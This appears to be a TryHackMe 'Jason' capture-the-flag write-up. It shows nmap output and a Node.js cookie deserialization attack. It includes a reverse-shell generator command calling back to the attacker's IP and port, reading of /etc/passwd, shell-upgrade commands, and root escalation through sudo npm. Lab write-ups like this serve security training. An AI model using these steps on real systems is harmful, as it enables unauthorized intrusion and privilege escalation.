 # Trhyhackme Jason Writeup

## Enumeration

### `sudo nmap -sV -sC -vv --script vuln -oA nmap-full 10.10.216.3`

* Output
```sh
Starting Nmap 7.92 ( https://nmap.org ) at 2021-10-09 18:09 CEST
NSE: Loaded 149 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 18:09
Completed NSE at 18:09, 10.00s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 18:09
Completed NSE at 18:09, 0.00s elapsed
Initiating Ping Scan at 18:09
Scanning 10.10.216.3 [4 ports]
Completed Ping Scan at 18:09, 0.07s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 18:09
Completed Parallel DNS resolution of 1 host. at 18:09, 0.04s elapsed
Initiating SYN Stealth Scan at 18:09
Scanning 10.10.216.3 [1000 ports]
Discovered open port 80/tcp on 10.10.216.3
Discovered open port 22/tcp on 10.10.216.3
Completed SYN Stealth Scan at 18:09, 1.18s elapsed (1000 total ports)
Initiating Service scan at 18:09
Scanning 2 services on 10.10.216.3
Completed Service scan at 18:10, 14.68s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.216.3.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 18:10
NSE Timing: About 98.89% done; ETC: 18:10 (0:00:00 remaining)
NSE Timing: About 98.89% done; ETC: 18:11 (0:00:01 remaining)
NSE Timing: About 98.89% done; ETC: 18:11 (0:00:01 remaining)
NSE Timing: About 98.89% done; ETC: 18:12 (0:00:01 remaining)
Completed NSE at 18:12, 131.13s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 18:12
Completed NSE at 18:12, 0.21s elapsed
Nmap scan report for 10.10.216.3
Host is up, received echo-reply ttl 63 (0.067s latency).
Scanned at 2021-10-09 18:09:50 CEST for 147s
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| vulners:
|   cpe:/a:openbsd:openssh:8.2p1:
|       CVE-2020-15778  6.8 https://vulners.com/cve/CVE-2020-15778
|       CVE-2020-12062  5.0 https://vulners.com/cve/CVE-2020-12062
|       MSF:ILITIES/GENTOO-LINUX-CVE-2021-28041/    4.6 https://vulners.com/metasploit/MSF:ILITIES/GENTOO-LINUX-CVE-2021-28041/ *EXPLOIT*
|       CVE-2021-28041  4.6 https://vulners.com/cve/CVE-2021-28041
|       CVE-2021-41617  4.4 https://vulners.com/cve/CVE-2021-41617
[...]
80/tcp open  http    syn-ack ttl 63
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
| fingerprint-strings:
|   GetRequest, HTTPOptions:
|     HTTP/1.1 200 OK
|     Content-Type: text/html
|     Date: Sat, 09 Oct 2021 16:09:57 GMT
|     Connection: close
|     <html>
|     <title>Horror LLC</title>
       [...]
|     </html>
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2005-3299
|_      http://www.exploit-db.com/exploits/1244/
[...]
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 18:12
Completed NSE at 18:12, 0.00s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 18:12
Completed NSE at 18:12, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 159.18 seconds
           Raw packets sent: 1004 (44.152KB) | Rcvd: 1001 (40.036KB)
Starting Nmap 7.92 ( https://nmap.org ) at 2021-10-09 18:09 CEST
```

### `ffuf -c -v -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.10.216.3/FUZZ -fs 3559`
Nothing of interest

### Website
![Alt text](../include/jason/horror_llc.png?raw=true "Landing page")
* Cookie value starts with `eyJlbW`, that's definetly the beginning of a json object encoded as base64.
![Alt text](../include/jason/cookie.png?raw=true "Cookie Value")
* Testing an input value
```sh
whackx@manbox jwt_tool]$ echo "eyJlbWFpbCI6ImJpbGwuZ2F0ZXNAbWljcm9zb2Z0LmNvbSJ9" | base64 -d
{"email":"bill.gates@microsoft.com"}
```
* Assumption: this is the point of interest

### Finding intel
* Data gets serialized via backend node js. 
![Alt text](../include/jason/searchsploit.png?raw=true "Searchsploit")

## Exploit
* After searching for deserialization exploits and getting the hang of it, I spent some time crafting payloads manually without any luck. I took a look at some node shell generators and came up with [this one](https://github.com/hoainam1989/training-application-security/blob/master/shell/node_shell.py). This did the trick. Pasting the payload, and we get a shell
```
python2  tools/reverse_shells/node_shell.py -r -h 10.9.47.11 -p 4448 -e  -o
```
### Enumerating the server
```sh
$id
uid=1000(dylan) gid=1000(dylan) groups=1000(dylan)

$ pwd
/opt/webapp

$ cat /etc/passwd
[...]
dylan:x:1000:1000:dylan:/home/dylan:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
```
* `dylan` is not in the lxd group.
* Flag is at `/home/dylan/user.txt`

#### Shell upgrade
```sh
uname -a
linux jason 5.4.0-74-generic #83-Ubuntu SMP Sat May 8 02:35:39 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```
* It is ubuntu, shell upgrade will contain a 3 ;)
```sh
python3 -c "import pty;pty.spawn('/bin/bash')"
```
* `stty raw -echo` Locally
* `export TERM=xterm-256color` on target
* Shell is interactive now, `sudo -l` is the next step.
```sh
dylan@jason:/opt/webapp$ sudo -l
Matching Defaults entries for dylan on jason:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dylan may run the following commands on jason:
    (ALL) NOPASSWD: /usr/bin/npm *
```
* Take a good look at [gtfobins](https://gtfobins.github.io) and get the root flag
![Alt text](../include/jason/root_shell.png?raw=true "Root shell")

